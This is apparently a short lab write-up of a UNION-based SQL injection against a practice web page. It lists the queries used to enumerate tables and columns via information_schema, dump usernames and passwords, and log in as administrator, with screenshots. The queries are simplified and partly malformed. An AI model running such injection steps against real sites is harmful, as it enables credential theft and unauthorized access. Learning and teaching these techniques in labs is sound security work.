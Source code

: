 This is the vulnerable webpage to perform SQL Injection attack,for listing the contents.

![image](https://user-images.githubusercontent.com/65653010/235273956-763e3da6-02a6-4368-8b8c-0fadc700f41b.png)

We perform a query to verify both the columns have text content in them

SELECT * FROM someTable WHERE category=Gifts UNION SELECT 'abc' 'def'

![image](https://user-images.githubusercontent.com/65653010/235274029-5fcc6f6d-3fe0-4875-962b-5359eb4c6736.png)

The query is confirmed. Now we perform a next query to get the information of a users table

SELECT * FROM someTable WHERE category=Gifts UNION SELECT table_name NULL FROM information_schema.tables

![image](https://user-images.githubusercontent.com/65653010/235329446-8ef32a9d-3b66-4af9-9d5b-4007788624a3.png)

Now we extract columns which contain username and password using query

SELECT * FROM someTable WHERE category=Gifts UNION SELECT column_name NULL FROM information_schema.columns WHERE table_name=''

By this query we retrieve the username and passwords

![image](https://user-images.githubusercontent.com/65653010/235329544-150919b5-ead3-4b45-8d74-f01666fd00e9.png)

![image](https://user-images.githubusercontent.com/65653010/235329554-3ab0db6f-45b0-40a5-8aa5-d4d779fbc258.png)

After we derive the columns of username and password, we perform this query to get the password ofg administrator


SELECT * FROM someTable WHERE category=Gifts UNION SELECT (username column) (password column) FROM (users table)

![image](https://user-images.githubusercontent.com/65653010/235329735-c744da42-7b41-4f80-8d63-95d5fb9c0c7c.png)

Now after we get the username and password of administrator we login into it

![image](https://user-images.githubusercontent.com/65653010/235329762-8e5cd54a-5277-4971-9d71-455ebe2644ba.png)


